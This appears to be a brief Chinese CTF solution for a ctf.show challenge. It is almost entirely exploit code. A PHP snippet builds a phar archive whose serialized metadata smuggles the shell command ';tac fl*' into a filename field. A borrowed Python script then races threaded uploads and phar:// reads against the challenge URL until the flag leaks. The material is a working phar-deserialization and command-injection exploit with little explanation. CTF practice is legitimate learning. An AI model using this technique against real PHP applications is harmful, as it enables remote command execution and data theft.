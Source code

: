 ```php
<?php
class filter{
    public $filename=";tac fl*";
    public $evilfile = true;
    public $admin = true;
}

$a = new filter();
echo urlencode(serialize($a));

# 下面这部分就没改
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```



偷一份tari师傅的多线程脚本：

```python
import base64
import requests
import threading

flag = False
url = 'http://0f5a5b64-ef6b-4317-b093-3f2fc62f1df9.challenge.ctf.show:8080/'
data = open('./phar.phar', 'rb').read()

pre_resp = requests.get(url)
if pre_resp.status_code != 200:
    print(url + '\n链接好像挂了....')
    exit(1)

def upload():
    requests.post(url+"?fn=phar.phar", data=data)


def read():
    global flag
    r = requests.post(url+"?fn=phar://phar.phar/", data="")
    if "ctfshow{" in r.text and flag is False:
        print(base64.b64encode(r.text.encode()))
        flag = True

while flag is False:
    a = threading.Thread(target=upload)
    b = threading.Thread(target=read)
    a.start()
    b.start()
```
